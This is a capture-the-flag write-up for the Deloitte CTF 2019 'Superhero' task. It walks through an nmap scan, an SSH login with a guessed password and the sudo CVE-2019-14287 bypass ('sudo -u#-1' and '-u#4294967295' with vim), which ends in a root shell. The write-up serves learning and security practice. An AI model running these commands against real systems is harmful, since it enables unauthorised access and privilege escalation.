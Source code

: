 ```yaml
---
title: Deloitte CTF Quals 2019: Superhero 🦸
slug: deloitte-superhero
date: 06/11/2019 05
---
```


*Superhero* 🦸 was a task labelled infrastructure and worth 75 points. It is
a challenge that mostly revolves around [the recent `sudo` CVE](https://resources.whitesourcesoftware.com/blog-whitesource/new-vulnerability-in-sudo-cve-2019-14287).

![Task Description](/assets/superhero/intro.png)

Let's start with a quick nmap scan:

```
$ nmap 3.9.190.45
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-06 15:34 GMT
Nmap scan report for ec2-3-9-190-45.eu-west-2.compute.amazonaws.com (3.9.190.45)
  Host is up (0.0038s latency).
  Not shown: 990 closed ports
  PORT     STATE    SERVICE
  22/tcp   open     ssh
  25/tcp   filtered smtp
  53/tcp   filtered domain
  135/tcp  filtered msrpc
  139/tcp  filtered netbios-ssn
  445/tcp  filtered microsoft-ds
  2000/tcp open     cisco-sccp
  2222/tcp open     EtherNetIP-1
  5060/tcp open     sip
  8008/tcp open     http

Nmap done: 1 IP address (1 host up) scanned in 1.27 seconds
```

We notice something unusal: `EtherNetIP-1` on port `2222`. This is a fairly
popular SSH port. Let's try:

```
$ ssh -p2222 geo@3.9.190.45
###############################################################
  Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
geo@3.9.190.45's password:
```

So we know that the user is `bruce`. From the name of the challenge, we can
imagine that it is a reference to Bruce Wayne, the real name of Batman! So
let's try `batman` as password:

```
$ ssh -p2222 bruce@3.9.190.45
###############################################################
    Bruce's SSH Server. Login as bruce with the usual password!
###############################################################
bruce@3.9.190.45's password:
bruce@eb2037c7a5a1:~$
```

Well, I guess that even a superhero might not be aware of the best practices
when it comes to passwords...

From there, we locate the `flag.txt` file, but we can't read it.

```
bruce@eb2037c7a5a1:~$ ls -al /
total 84
[...]
--w-------   1 root root   20 Oct 23 13:56 flag.txt
[...]
bruce@eb2037c7a5a1:~$
```

We need to get root permissions. Let's see if we can use `sudo`:

```
bruce@eb2037c7a5a1:/$ cat /etc/sudoers
bruce ALL = (ALL, !root) /usr/bin/vim
bruce@eb2037c7a5a1:/$
```

We can run `/usr/bin/vim`, but not as `root`:

```
bruce@eb2037c7a5a1:/$ sudo /usr/bin/vim /flag.txt
Sorry, user bruce is not allowed to execute '/usr/bin/vim /flag.txt' as root on eb2037c7a5a1.
bruce@eb2037c7a5a1:/$
```

At this point, one of my teammates told me that the recent sudo vulnerability
should work. I gave it a try:

```
bruce@eb2037c7a5a1:/$ sudo -u#-1 /usr/bin/vim /flag.txt
```

It worked! We got our flag! We can even use the `:terminal` command in Vim
and enjoy a root shell.

![Task Description](/assets/superhero/root.png)

For the record, the other `sudo` payload also worked:

```
bruce@eb2037c7a5a1:/$ sudo -u#4294967295 /usr/bin/vim /flag.txt
```
